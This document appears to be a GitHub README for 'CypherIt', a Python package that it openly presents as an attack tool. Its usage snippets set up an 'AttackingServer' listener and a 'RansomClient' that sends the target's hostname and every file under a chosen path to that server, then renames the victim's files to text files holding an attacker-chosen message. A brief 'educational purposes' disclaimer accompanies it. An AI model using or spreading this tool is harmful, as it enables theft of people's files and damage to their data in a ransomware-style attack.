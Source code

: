 CypherIt
========

CypherIt is an intelligent tool which renames all the files to a txt file in a binder.You can write what ever you want.

All the files of the target will be saved in your directory and you can do what ever you want.

Inspired by:
==========
B.I.GG

HOW DOES CYPHERIT WORK
======================

If you are familiar to my style of packages. You already know how simple it is

First of all create a server:

Server
------
````python
import CyphterIt as ci

ip, port = "127.0.0.1", 1234

server = ci.AttackingServer(ip, port)
server.start()
````

Client
------
````python
import CyphterIt as ci

ip, port, path, text = "127.0.0.1", 1234, r"C:\\test", "the one and only"
#You have to specify the path because this was just build for educational purposes. So please do not use it for bad thinks

data = ci.RansomClient(ip, port, path, text)
data.start()
````

You always have to run the server first and then the client.

The hostname of the target will be sent to your server

A Directory with the hostname of the target will be created.

All the data of target will be stored in that directory

Additional
=========
* PLEASE DO NOT HACK SOMEONE FOREIGN